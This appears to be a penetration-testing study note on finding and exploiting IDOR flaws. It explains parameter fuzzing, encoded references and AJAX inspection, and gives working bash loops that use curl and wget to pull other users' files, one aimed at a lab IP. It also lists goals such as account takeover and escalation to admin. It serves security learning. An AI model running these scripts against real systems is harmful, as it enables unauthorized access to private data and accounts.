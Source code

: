 # Detecting and Enumerating IDOR

### URL parameters and APIs&#x20;

Look for parameters that appear to be direct object references. for example:

```
?uid=1 or ?filename=file_1.pdf
```

These parameters can then be incremented or fuzzed. We should pay close attention to the page to look for changes when we change the parameters. For example, in applications that show documents or files for specific users, we may see different files if we change the parameter which would indicate we had found and IDOR vulnerability.&#x20;

### AJAX Calls

Look for unused parameters or API's in the front end code in the form of JavaScript AJAX calls. these may have been accidentally placed or left here and by modifying the HTTP request, we can possibly find an IDOR vulnerability.&#x20;

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Hashing/Encoding

For parameter input, the application may not always use a plain text value and instead could encode or hash the reference. If this is found the value could possibly be deoded, changed, and then re encoded to attempt to access sensitive data.&#x20;

We can also check the front end code to detect if a reference is being hashed:

```
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

This can make it easy for us to calculate other reference values we would like to fuzz. If we cannot find the hash algorithm in an ajax call in the front end code, then we can use some hash identifier tools to attempt to learn the hash type.

Using this information, we can fuzz the parameter with the correct encoding.&#x20;

take for example this source code, which base64 encodes the value, then md5 hashes:

```
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We could then craft a bash script, (or you could use burp intruder or zap) to properly modify the payload before sending it:

```
#!/bin/bash

for i in {1..20}; do
	value=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
	curl -sOJ -X POST -d "contract=$value" http://94.237.123.87:59911/download.php
done
```

some points about this script:

-n on the echo removes newline, which will get encoded and change the value if included&#x20;

tr -d ' -' removes the trailing ' -' from the output of the md5sum.

Make sure to review the source code and find out how the encoded value is being generated &#x20;

### User Roles

By registering multiple users and comparing their HTTP requests and object references, this may allow us to better understand how the URL parameters and object references are formatted, so we can use this to our advantage when looking for IDOR.

```
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

We can try to make the same API call when logged in as user2, and if the call is successful we know there is an IDOR vulnerability.&#x20;

### Mass Enumeration

We can fuzz with tools like Burp Suite, ZAP, or ffuf.&#x20;

#### Bash Script to download all files

Use the element inspector in the browser to identify the elements for the files and find a string to grep on:

```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Then we can craft a regex just to get the file names we want:&#x20;

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

and finally use a for loop in bash to loop through user ID's and download all files with wget.&#x20;

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Insecure API's and Function Calls&#x20;

This can be determined by examining requests going out to the server that are updated on the back end. We look for REST calls to API endpoints. these typically use PUT, POST, GET, and DELETE to interact with the API endpoint, and many times use json for the request body. i.e:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We should look for interesting parameters which may have the possibility of an IDOR vulnerability, such as uid, uuid, or role in this instance. We should also look to see if any of these values are being set on our cookie and used for access control, as those can be valuable targets. That typically means the access control is being set client side, which we can modify. We can aim to attempt the following:

1. Change our `uid` to another user's `uid`, such that we can take over their accounts
2. Change another user's details, which may allow us to perform several web attacks
3. Create new users with arbitrary details, or delete existing users
4. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions

### Chaining IDOR vulnerabilities

Its important to keep in mind that one IDOR vulnerability may lead to another. sensitive information leaked in an information disclosure IDOR might be able to be utilized to exploit insecure API's or function calls. You may be able to use this to modify user details, change a users email address to one you control and request a password reset link, place an XSS in a user detail field, etc.&#x20;
